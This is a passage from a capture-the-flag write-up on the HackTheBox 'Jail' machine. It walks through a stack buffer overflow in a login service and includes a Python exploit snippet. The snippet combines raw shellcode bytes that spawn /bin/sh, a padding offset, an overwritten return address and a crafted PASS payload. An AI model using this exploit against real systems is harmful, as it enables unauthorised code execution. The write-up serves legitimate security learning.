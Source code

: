 
If we look at the 33 bytes of data prior to the EIP, we can see our payload:

![payload-30](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/payload-30.png)


We can see all of our A's, and then the highlighted EIP register which actually jumped one address forwards after the interrupt. Following the EIP we can see our `\xFF` bytes, which caused the crash. 


At this point we should be ready to replace our faulty `\xFF` bytes, with a working shellcode.


At first, I tried generating a reverse shell payload using `msfvenom`, and add that right after the EIP. Though this crashed the application with a `segmentation fault` once again! Why?


Instead, I decided to use a shellcode that simply spwans `/bin/sh` locally, and then find a way to get an interactive shell from it. For that I used [this shellcode](https://www.exploit-db.com/exploits/34060) from ExploitDB.


So now the start of my exploit looks like this:

```python
shellcode = b""
shellcode += b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
shellcode += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
shellcode += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
shellcode += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
shellcode += b"\x89\xe3\x31\xc9\xcd\x80"

username = b'USER admin'
passwd = b'PASS '


offset = 28                         
eip = int('ffffc7f0', 16) + 32 
eip = eip.to_bytes(4, 'little')

pad = b'A' * offset

payload = passwd + pad + eip + shellcode
```

The rest of the exploit it the same. 


Running this exploit worked, and the program remained in tact without causing any core dumps. When looking in `htop`, I can see that a child process of `jail` spwaned `/bin/sh`:
